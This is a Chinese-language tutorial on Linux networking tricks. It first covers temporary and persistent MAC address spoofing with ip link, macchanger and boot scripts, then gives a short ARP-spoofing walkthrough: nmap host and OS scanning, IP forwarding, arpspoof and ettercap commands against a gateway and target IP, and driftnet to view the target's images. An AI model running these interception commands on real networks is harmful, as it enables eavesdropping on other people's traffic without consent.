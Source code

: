 # Linux 上的 MAC 地址欺骗

https://linux.cn/article-2793-1.html



## 什么是mac地址

> 网卡生产商在每一张网卡（NIC）在出厂时都会在上面刻上一个48位的全球唯一标识符（GUID，例如08:4f:b5:05:56:a0)

所以mac地址为`确定一张网卡的身份`但用户可以改变它，这就是传说中的“`MAC 地址欺骗`”。

## 怎么临时性地改变 MAC 地址？

## 1 方法一：`iproute2`

```
sudo ip link set dev eth0(网卡) down

sudo ip link set dev eth0 address 00:00:00:00:00:01

sudo ip link set dev eth0 up 
```
![](img/1.png)

## 方法二：`macchanger`

### 另一个方法是通过 macchanger (a.k.a., the GNU MAC Changer)。它有一些方便的功能，比如改变 MAC 地址以匹配某个运营商，或者完全随机化地址。



>在 Debian，Ubuntu 或 Linux Mint 下安装 macchanger：

         sudo apt-get install macchanger 


>在 Fedora 下安装 macchanger：

        sudo yum install macchanger 

> 在 CentOS 或 RHEL 下安装 macchanger：

```
$ wget http://ftp.club.cc.cmu.edu/pub/gnu/macchanger/macchanger-1.6.0.tar.gz
$ tar xvfvz macchanger-1.6.0.tar.gz
$ cd macchanger-1.6.0 
$ ./configure
$ make
$ sudo make install 
```

仅仅改变 MAC 地址：

```
$  macchanger --mac=00:00:00:00:00:01 eth0 
```
在保证 OUI 一致的情况下为 MAC 设置一个随机地址：
```
$  macchanger -e eth0 (网卡)
```
为 MAC 设置一个完全随机的地址：
```
$  macchanger -r eth0 (网卡)
```
![](img/2.png)


获取所有网卡的 MAC 地址，然后只列出指定的厂商（比如 Juniper）:
```
$ macchanger -l | grep -i juniper 
```

> 显示一块网卡原来的 MAC 地址和伪装的 MAC 地址：
```
$ macchanger -s eth0
Current MAC: 56:95:ac:ee:6e:77 (unknown) 
Permanent MAC: 00:0c:29:97:68:02 (Vmware, Inc.)
```

## 如何永久性地改变 MAC 地址？

如果你想在系统重启后还保持伪装 MAC 地址，你需要编辑配置文件。比如你想改变 eth0 的 MAC 地址，按以下方法搞起：

## 在 Fedora，CentOS 或 RHEL 下：

```
sudo vi /etc/sysconfig/network-scripts/ifcfg-ens33
DEVICE=ens33
MACADDR=00:00:00:00:00:01
```

或者你可以建一个开机启动的脚本放在 /`etc/NetworkManager/dispatcher.d` 目录下，前提是你使用 `Network Manager 管理你的网络。`这里假设你已经装了 macchanger，脚本内容如下：


```
sudo vi /etc/NetworkManager/dispatcher.d/000-changemac
#!/bin/bash
 
case "$2" in
    up)
        macchanger --mac=00:00:00:00:00:01 "ens33"
        ;;
esac
```

### 在 Debian，Ubuntu 或 Linux Mint 下：

新建一个开机启动脚本，放在 /etc/network/if-up.d/ 目录下：

```
sudo vi /etc/network/if-up.d/changemac 
#!/bin/sh
 
if [ "$IFACE" = eth0 ]; then
  ip link set dev "$IFACE" address 00:00:00:00:00:01
fi
```
顺手再给个权限

```
sudo chmod 755 /etc/network/if-up.d/changemac 
```


# ARP 攻击

## ARP欺骗方法

>nmap扫描内网主机
```
nmap -sP 192.168.0.0/24
查看目标主机操作系统信息
```
```
nmap -O 192.168.0.133
开启流量转发功能
```
```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```
`使用arpspoof或ettercap`，`选一个进行arp欺骗。获取从192.168.0.1（路由器） 到 192.168.0.21（目标机）的流量。`



使用arpspoof（`无线网络下，有线网络则先ip，后网关`）：
```
arpspoof -i eth0 -t 192.168.1.1(网关) 192.168.1.*(ip)
```
```
arpspoof -i eth0 -t 192.168.0.1  192.168.0.21
```
>使用`ettercap`：
```
ettercap -T -q -M ARP /192.168.0.21（目标ip）//网关 ///
```
driftnet图片流量监控

driftnet -i eth0















